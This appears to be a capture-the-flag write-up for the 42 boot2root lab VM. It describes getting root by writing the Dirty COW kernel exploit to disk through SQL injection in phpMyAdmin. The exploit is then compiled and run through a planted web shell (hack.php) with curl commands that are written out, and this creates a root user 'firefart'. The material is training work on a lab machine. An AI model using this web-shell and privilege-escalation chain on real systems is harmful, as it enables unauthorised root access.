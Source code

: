 # Dirty COW through SQL Injection

## Intro

Following these instructions will get you the Holy Grail (the root, you know) using a very beautiful and very messy way:

![Bonus way #3](https://drive.google.com/uc?export=view&id=1KalcsuE9IKLSI64LeqLpWD9eoW4cftpo)

## How to start?

Need to do steps from [Main way #1](https://github.com/MrOnimus/42_boot2root/blob/master/writeup1) to start after access to cmd through get request.

## Generating an SQL query

After this we need to run SQL [script](https://github.com/MrOnimus/42_boot2root/blob/master/scripts/dirty_cow_sql_injection.sql) in phpMyAdmin.

Given script is a Dirty COW [exploit](https://www.exploit-db.com/exploits/40839) in form of the SQL injection script.
To comply with SQL formatting standards we've changed some symbols using this online [utility](http://www.unit-conversion.info/texttools/replace-text/). To be clear, we have made the following changes: " -> \\", ' -> \\', and \n -> \\\n .

As the lines ended with '\\' symbol and escaped symbols conflicted with each other, we couldn't compile file. 
We've worked this problem out with help of this [source](https://stackoverflow.com/questions/5268088/extra-backslash-when-select-into-outfile-in-mysql):

	LINES TERMINATED BY '\r\n'
	ESCAPED BY ''

## SQL injection execution

After that - compile and run exploit with:

	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=gcc%20-pthread%20exploit.c%20-o%20exploit%20-lcrypt"
	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=ls" # check if it correct compile
	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=./exploit%20123"

And we have `firefart` user with password 123 which is root. But I don't now how log in because su or su -c can't get `passwd` as argument.
